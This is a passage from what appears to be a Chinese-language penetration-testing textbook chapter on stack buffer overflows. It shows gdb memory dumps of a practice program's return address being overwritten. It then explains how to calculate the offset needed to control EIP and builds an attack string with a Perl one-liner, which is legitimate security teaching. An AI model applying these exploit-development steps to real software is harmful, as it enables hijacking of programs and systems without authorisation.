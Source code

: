 你可以看到这里`function1`的栈帧也上移了 32 个字节。还要注意，我们的返回地址仍然保存着内存地址`0x08048443` ❶。尽管我们的栈帧有些变化，但内存中待执行的指令依然保持在原来的位置。

再次使用`continue`命令，继续到第三个断点。这是事情变得有趣的地方，参见示例 16-11。

示例 16-11：返回地址被*A*覆盖

```
Breakpoint 3, function (str=0x41414141 <Address 0x41414141 out of bounds>)
    at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff500:    0xbffff513    0xbffff733    0xbffff518    0x080482e8
0xbffff510:    0x41fcfff4    0x41414141    0x41414141    0x41414141
0xbffff520:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff530:    0x08040041    0x08048340    0xbffff598    0xb7e8c685

(gdb) **continue**
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```

让我们在第三个断点后再次查看内存，紧接着`strcpy`之后，但在`function1`返回`main`之前。这次，返回地址被*A*覆盖的位置在❶，而`main`的栈帧部分也被覆盖了。此时，程序已经没有恢复的希望了。

当`function1`返回时，程序尝试执行`main`的返回地址处的指令，但返回地址已被我们的*A*覆盖，导致程序在尝试执行内存地址`41414141`处的指令时发生预期的段错误。（在接下来的章节中，我们将讨论如何用其他内容替换返回地址，使程序跳转到我们自己的代码，而不是崩溃。）

### 控制 EIP

让程序崩溃本身很有意思，但作为漏洞开发者，我们的目标是，如果可能的话，劫持执行并让目标 CPU 代我们执行代码。也许通过操控崩溃，我们可以执行开发者本不打算执行的其他指令。

目前，当我们的程序尝试执行位于内存地址`41414141`的指令时，程序崩溃，因为该地址超出了范围。我们需要更改参数字符串，包含一个程序可以访问的有效内存地址。如果我们能将返回地址替换为另一个有效的内存位置，当`function1`返回时，我们应该能够劫持执行。也许开发者甚至在程序中留下了一些调试代码，我们可以用它来说明这个目的。（但我有点跑题了。）

为了重定向执行，我们首先需要确定返回地址被我们一长串* A *替换的位置。让我们回顾一下，当我们用四个字符的参数正常运行程序时，栈的情况，如下所示。

```
0xbffff520:    0xbffff533    0xbffff74c    0xbffff538    0x080482e8
0xbffff530:    0x41fcfff4    0x00414141❶  0xbffff500❷  0x08048443❸
```

我们可以看到四个*A* ❶是如何被复制到局部变量`buffer`中的。现在，回想一下，EBP ❷之后的四个字节包含了返回地址`0x08048443` ❸。我们可以看到，在四个*A*之后，`function1`的栈帧中还有五个字节，这些字节位于返回地址之前。

从内存来看，合乎逻辑的是，如果我们给程序传递一个长度为 5 + 4 + 4 字节的参数，最后四个字节将覆盖返回地址。我们可以通过向程序传递九个*A*后跟四个*B*的参数来测试。如果程序在尝试执行内存地址`42424242`（*B*的十六进制表示）处的指令时崩溃，我们就知道我们正确地计算了偏移量。

我们可以再次使用 Perl 来帮助我们创建攻击字符串，如示例 16-12 所示。

示例 16-12. 使用新的攻击字符串启动程序

```
(gdb) **delete 1**
(gdb) **delete 2**
(gdb) **run $(perl -e 'print "A" x 9 . "B" x 4')**
The program being debugged has been started already.
Start it from the beginning? (y or n) **y**

Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 9 . "B" x 4')
```
